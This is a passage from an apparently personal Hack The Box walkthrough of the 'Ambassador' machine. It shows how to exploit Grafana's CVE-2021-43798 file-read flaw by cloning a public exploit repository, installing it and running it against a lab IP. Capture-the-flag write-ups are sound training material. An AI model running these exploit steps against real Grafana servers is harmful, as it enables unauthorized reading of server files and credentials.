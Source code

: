   <img src="/images/walkthroughs/hackthebox/ambassador/1_1_grafana.png" width="80%"/>
</p>

That version is vulnerable to [CVE-2021-43798](https://nvd.nist.gov/vuln/detail/CVE-2021-43798), a Local File Inclusion (LFI) issue that allow us to read arbitrary files from the server. There are [public exploits](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798) for it, so I tried it. I cloned the repository and installed the requirements:

```bash
git clone https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798.git
cd exploit-grafana-CVE-2021-43798
python3.9 -m pip install -r requirements.txt
echo "http://10.10.11.183:3000" > list.txt
python3.9 exploit.py
```

Now run the exploit and get the information.

<p align="center">